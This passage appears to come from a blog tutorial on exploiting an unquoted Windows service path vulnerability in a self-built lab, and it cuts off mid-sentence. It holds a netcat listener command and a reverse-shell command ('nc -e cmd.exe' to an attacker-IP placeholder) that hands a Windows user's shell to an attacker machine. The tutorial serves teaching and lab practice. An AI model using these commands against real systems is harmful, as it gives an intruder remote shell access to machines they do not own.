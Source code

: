 ![](/assets/img/posts/unquoted-service-path-vulnerability/17.jpg)<br><br>

Log in to the system with the account that you have created which belongs to the Users Group, for me it is krygen user.
<br>We will assume that, somehow you have gained accessed to the system as the user krygen.
<br>I will use [**netcat**](https://github.com/andrew-d/static-binaries/blob/0be803093b7d4b627b4d4eddd732e54ac4184b67/binaries/windows/x86/ncat.exe)
in order to establish a connection and take a shell from krygen to my attacker machine.
<br><br>Run this on the attacker machine: 
{% highlight powershell %}
nc -nvlp {SOME FREE PORT}
{% endhighlight %}
Run that on the windows machine: 
{% highlight powershell %}
nc -e cmd.exe {IP OF THE ATTACKER MACHINE} {PORT THE ATTACKER MACHINE LISTENS TO}
{% endhighlight %}
![](/assets/img/posts/unquoted-service-path-vulnerability/18.jpg)<br><br>
Now that we have access to the krygen's shell, we can try to write to all those a,b and c folders by attempting to create a 